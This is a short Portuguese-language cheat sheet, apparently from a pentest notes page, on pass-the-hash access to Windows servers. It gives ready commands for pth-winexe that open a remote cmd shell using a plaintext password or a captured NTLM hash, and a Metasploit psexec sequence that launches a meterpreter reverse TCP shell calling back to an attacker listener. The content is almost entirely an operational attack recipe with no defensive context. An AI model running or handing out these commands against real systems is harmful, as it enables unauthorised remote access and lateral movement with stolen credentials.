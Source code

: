 # PTH-WINEXE

O **PTH-WINEXE** é uma ferramenta para acessar um servidor Windows usando o conceito de Pass The Hash, ou seja, sem a necessidade de quebrar um hash obtido para ter acesso privilegiado ao servidor.

---

Acesso com credencial de usuário:

```bash
pth-winexe -U usuario%senha //192.168.0.100 cmd
```

---

Acesso com hash do usuário:

```bash
pth-winexe -U usuario%C1C2C3C4A1A2A3A4A5A6A7A8D8D5D3D2:2A3A4A5A6A7A8D8D5D3D2 //192.168.0.100 cmd
```

---

Podemos também efetuar o mesmo processo através do MSF:

```msf
msf > use exploit/windows/smb/psexec  
msf exploit(psexec) > set RHOST 192.168.0.100  
msf exploit(psexec) > set SMBUser usuario  
msf exploit(psexec) > set SMBPass senha(pode ser o hash também)  
msf exploit(psexec) > set SMBDomain dominio  
msf exploit(psexec) > set payload windows/x64/meterpreter/reverse_tcp  
msf exploit(psexec) > set LHOST 192.168.0.101  
msf exploit(psexec) > set LPORT 4444  
msf exploit(psexec) > exploit
```
